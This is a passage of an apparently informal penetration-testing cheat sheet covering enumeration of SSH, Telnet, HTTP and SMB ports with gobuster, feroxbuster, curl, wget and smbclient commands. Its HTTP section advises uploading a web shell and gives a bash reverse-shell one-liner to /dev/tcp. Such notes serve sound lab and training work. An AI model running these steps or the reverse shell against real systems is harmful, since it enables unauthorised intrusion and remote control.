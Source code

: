 ### Port 22 – SSH

-   Got creds? Hell yeah brother.
-   Don’t? Move along, nothing to see here (yet).

`ssh user@ip`

* * *

### Port 23 – Telnet

-   It’s 2025. If Telnet is open, someone deserves to be fired.
-   Default creds might just work because apparently security is optional.

* * *

### Port 80 – HTTP

**Step 1: Open in browser.**

-   If it’s IIS 6.0, congrats, you basically already own it.
-   If it’s WordPress, grab coffee... you’ll be here a while.

**Step 2: Directory busting.**

```bash
gobuster dir -u http://<ip> -w <wordlist> 
feroxbuster -u http://<ip> -w <wordlist>
```

-   Run them all, because why not?

**Step 3: Grab files.**


```bash
curl -IL http://<ip>

wget http://<ip>/path/to/thing
```

**Step 4: Shell time.**


-   Upload a `.php` or `.aspx` shell.
-   Can’t upload? Inject like your life depends on it.

`bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'`

* * *

### Ports 139/445 – SMB

-   Run `smbclient`. Pray for misconfigured shares.
-   If you see `C$`, wave hello to Windows internals.
-   If you see `passwords.txt`, buy a lottery ticket.

```bash
smbclient -L \\<ip> 

smbclient \\<ip>\share_name -U <user>
```
